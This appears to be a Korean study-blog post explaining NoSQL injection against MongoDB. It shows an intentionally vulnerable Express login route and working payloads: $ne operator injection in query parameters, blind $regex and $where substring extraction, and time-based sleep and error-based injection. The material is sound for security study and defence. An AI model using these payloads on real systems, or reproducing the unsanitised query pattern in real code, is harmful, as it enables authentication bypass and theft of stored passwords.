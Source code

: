 ```yaml
---
title: "[2025-07-12] NoSQL Injection"
excerpt: "NoSQL Injection 개념 정리"

categories:
  - Justice
tags:
  - [NoSQL Injection]

permalink: /Justice/[2025-07-12] NoSQL Injection/

toc: true
toc_sticky: true

date: 2025-07-12
last_modified_at: 2025-07-12
---
```


## 🦥 본문

### 정의

NoSQL 데이터베이스에 대해 이용자의 입력값이 쿼리 객체에 그대로 포함되면서 쿼리 구조를 조작하는 공격 

### NoSQL 연산자

| Name | Description |
| --- | --- |
| `$eq` | 지정된 값과 같은 값을 찾습니다. **(equal)** |
| `$in` | 배열 안의 값들과 일치하는 값을 찾습니다. **(in)** |
| `$ne` | 지정된 값과 같지 않은 값을 찾습니다. **(not equal)** |
| `$nin` | 배열 안의 값들과 일치하지 않는 값을 찾습니다. **(not in)** |
| `$and` | 논리적 AND, 각각의 쿼리를 모두 만족하는 문서가 반환됩니다. |
| `$not` | 쿼리 식의 효과를 반전시킵니다. 쿼리 식과 일치하지 않는 문서를 반환합니다. |
| `$nor` | 논리적 NOR, 각각의 쿼리를 모두 만족하지 않는 문서가 반환됩니다. |
| `$or` | 논리적 OR, 각각의 쿼리 중 하나 이상 만족하는 문서가 반환됩니다. |
| `$exists` | 지정된 필드가 있는 문서를 찾습니다. |
| `$type` | 지정된 필드가 지정된 유형인 문서를 선택합니다. |
| `$expr` | 쿼리 언어 내에서 집계 식을 사용할 수 있습니다. |
| `$regex` | 지정된 정규식과 일치하는 문서를 선택합니다. |
| `$text` | 지정된 텍스트를 검색합니다. |
| `$where` | JavaScript 표현식을 만족하는 문서와 일치합니다. |

### 예시

아래의 코드는 입력 받은 uid와 upw에 해당하는 데이터를 찾고 출력하는 코드. 

```jsx
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

연산자를 사용하여 계정을 받아올 수 있다

```jsx
query?uid[$ne]=a&upw[$ne]=a //ne : not equal. a가 아닌 계정
=> [{"_id":"5ebb81732b75","uid":"admin","upw":"pw"}]

또는
query?uid={"$ne": null }&upw={"$ne": null } // null이 아닌 계정 
```

## Blind NoSQL Injection

### 정의

공격자가 응답의 변화를 통해 간접적으로 NoSQL 결과를 추측하는 방식의 공격 

### 연산자 종류 및 공격 방법

- $regex : 정규식을 사용하여 일치하는 데이터 조회

```jsx
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

- $where : JS 표현식을 만족하는 데이터 조회. 필드 값에는 사용할 수 없음

```jsx
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

- substring : 한 글자씩 비교하여 데이터 탐색

```jsx
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

- Sleep

```jsx
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});

/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.

```

- Error based Injection : 아래는 참일 경우에 이상한 코드 asdf를 집어 넣어 에러를 발생시킨다.

```jsx
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```